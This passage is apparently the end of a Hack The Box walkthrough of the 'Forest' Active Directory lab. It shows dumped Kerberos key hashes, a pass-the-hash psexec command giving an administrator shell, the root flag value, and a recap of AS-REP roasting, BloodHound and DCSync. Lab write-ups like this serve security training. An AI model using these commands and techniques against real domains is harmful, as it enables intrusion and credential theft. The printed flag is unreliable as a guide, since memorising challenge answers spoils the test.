htb.local\mark:des-cbc-md5:b5dff1f40b8f3be9
htb.local\santi:aes256-cts-hmac-sha1-96:8a0b0b2a61e9189cd97dd1d9042e80abe274814b5ff2f15878afe46234fb1427
htb.local\santi:aes128-cts-hmac-sha1-96:cbf9c843a3d9b718952898bdcce60c25
htb.local\santi:des-cbc-md5:4075ad528ab9e5fd
john:aes256-cts-hmac-sha1-96:d62a736f49f88defdf75b0d9dde229c06e610deab92f16551e66f4a48c034aaf
john:aes128-cts-hmac-sha1-96:cc9cf4f03dd5bc20ce617ce19a6c0f1d
john:des-cbc-md5:b5b657cdc86d2668
FOREST$:aes256-cts-hmac-sha1-96:ed76401831f0cb5c737455a2628cbda178e91c15e3b959da79e2537299af70f9
FOREST$:aes128-cts-hmac-sha1-96:1f108535b6abbd043b528b9cf1a7d40d
FOREST$:des-cbc-md5:83f44575754cc152
EXCH01$:aes256-cts-hmac-sha1-96:1a87f882a1ab851ce15a5e1f48005de99995f2da482837d49f16806099dd85b6
EXCH01$:aes128-cts-hmac-sha1-96:9ceffb340a70b055304c3cd0583edf4e
EXCH01$:des-cbc-md5:8c45f44c16975129
[*] Cleaning up...
```

Using the administrator hash, let's use impacket psexec module and try to access the system as an administrator.

```
┌─[eu-dedivip-3]─[10.10.15.233]─[ciupi@htb-0niu7184by]─[~]
└──╼ [★]$ psexec.py Administrator@10.129.95.210 -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6
Impacket v0.13.0.dev0+20250130.104306.0f4b866 - Copyright Fortra, LLC and its affiliated companies

[*] Requesting shares on 10.129.95.210.....
[*] Found writable share ADMIN$
[*] Uploading file wppCuXwr.exe
[*] Opening SVCManager on 10.129.95.210.....
[*] Creating service ZFnI on 10.129.95.210.....
[*] Starting service ZFnI.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

Perfect, now we have admin access and we can complete our final task.

```
C:\> dir
 Volume in drive C has no label.
 Volume Serial Number is 61F2-A88F

 Directory of C:\

09/20/2019  01:18 PM    <DIR>          PerfLogs
09/22/2019  04:56 PM    <DIR>          Program Files
11/20/2016  07:36 PM    <DIR>          Program Files (x86)
09/22/2019  04:02 PM    <DIR>          Users
05/17/2026  08:14 AM    <DIR>          Windows
               0 File(s)              0 bytes
               5 Dir(s)  10,426,912,768 bytes free

C:\> cd Users

C:\Users> dir
 Volume in drive C has no label.
 Volume Serial Number is 61F2-A88F

 Directory of C:\Users

09/22/2019  04:02 PM    <DIR>          .
09/22/2019  04:02 PM    <DIR>          ..
09/18/2019  10:09 AM    <DIR>          Administrator
11/20/2016  07:39 PM    <DIR>          Public
09/22/2019  03:29 PM    <DIR>          sebastien
09/22/2019  04:02 PM    <DIR>          svc-alfresco
               0 File(s)              0 bytes
               6 Dir(s)  10,426,912,768 bytes free

C:\Users> cd Administrator

C:\Users\Administrator> dir
 Volume in drive C has no label.
 Volume Serial Number is 61F2-A88F

 Directory of C:\Users\Administrator

09/18/2019  10:09 AM    <DIR>          .
09/18/2019  10:09 AM    <DIR>          ..
09/20/2019  04:04 PM    <DIR>          Contacts
09/23/2019  02:15 PM    <DIR>          Desktop
09/23/2019  03:46 PM    <DIR>          Documents
09/20/2019  04:04 PM    <DIR>          Downloads
09/20/2019  04:04 PM    <DIR>          Favorites
09/20/2019  04:04 PM    <DIR>          Links
09/20/2019  04:04 PM    <DIR>          Music
09/20/2019  04:04 PM    <DIR>          Pictures
09/20/2019  04:04 PM    <DIR>          Saved Games
09/20/2019  04:04 PM    <DIR>          Searches
09/20/2019  04:04 PM    <DIR>          Videos
               0 File(s)              0 bytes
              13 Dir(s)  10,426,912,768 bytes free

C:\Users\Administrator> cd Desktop

C:\Users\Administrator\Desktop> type root.txt
2592e21cdf202371dfa41bc5ee48cb64

C:\Users\Administrator\Desktop>
```

Answer: 2592e21cdf202371dfa41bc5ee48cb64

This machine demonstrated how small misconfigurations in an Active Directory environment can
be chained together into full domain compromise. Through enumeration, I learned the importance
of identifying exposed services and leveraging anonymous LDAP binds to gather valuable domain
information. Using LDAP enumeration and BloodHound helped map relationships, permissions, and
attack paths inside the domain.

The box introduced me to AS-REP roasting, where Kerberos accounts without pre-authentication
enabled can expose crackable authentication material. After obtaining credentials for the
svc-alfresco account, I gained an initial foothold through WinRM and used BloodHound to
analyze privilege escalation opportunities.

One of the most important lessons from this machine was understanding how delegated
permissions and nested group memberships can become dangerous. Membership in Account Operators
allowed manipulation of Exchange-related groups, which ultimately led to abusing Exchange
Windows Permissions and granting DCSync rights. With DCSync privileges, I was able to
replicate domain credentials and extract NTLM hashes directly from the domain controller.
